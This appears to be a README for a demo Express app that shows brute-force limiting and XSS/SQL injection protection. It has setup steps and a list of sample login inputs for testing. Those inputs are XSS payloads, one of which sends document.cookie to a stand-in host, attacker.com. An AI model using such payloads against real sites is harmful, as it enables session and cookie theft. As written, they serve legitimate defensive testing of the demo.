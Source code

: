 # Simple Web Security App

This project demonstrates a simple web application that includes features like brute force protection, SQL injection prevention, and XSS mitigation.
  
## Installation

Follow the steps below to set up the project on your local machine.

### 1. Create a New Project Directory
Open your terminal and create a new directory for your project:
```bash
mkdir my-web-security-app
cd my-web-security-app
```

### 2. Initialize a Node.js Project
Run the following command to initialize a new Node.js project and create the package.json file:
```bash
npm init -y

```

### 3. Install Required Dependencies
```bash
npm install express cors

```
### 4. Test Using Postman

- Open Postman (download it if you don't have it: [Download Postman](https://www.postman.com/downloads/)).
- Create a new POST request to `http://localhost:3000/login` with the appropriate `username` and `password` parameters.

### 5. Start the Server
```bash
node server.js

```
### 6. Error Occur express-rate-limit [MODULE NOT FOUND] 
```bash
npm install express-rate-limit

```
### 7. Error Occur node-cache [MODULE NOT FOUND] 
```bash
npm install node-cache

```

### Others
```bash
netstat -ano | findstr :3000
taskkill /PID ID /F
```
### Sample Inputs
```bash
USERNAME AND PASSWORD

{
  "username": "joxyle",
  "password": "jhon"
}

SQL INJECTION
{
  "username": "<script>alert('XSS')</script>",
  "password": "password123"
}
{
  "username": "<img src='x' onerror='alert(1)'>",
  "password": "password123"
}
{
  "username": "<img src='nonexistent.jpg' onload='alert(\"XSS\")'>",
  "password": "password123"
}
{
  "username": "<script>fetch('http://attacker.com?cookie=' + document.cookie)</script>",
  "password": "password123"
}
{
  "username": "<img src='x' onerror='eval(atob(\"YWxlcnQoJ1hTUycp\")' />",
  "password": "password123"
}

```
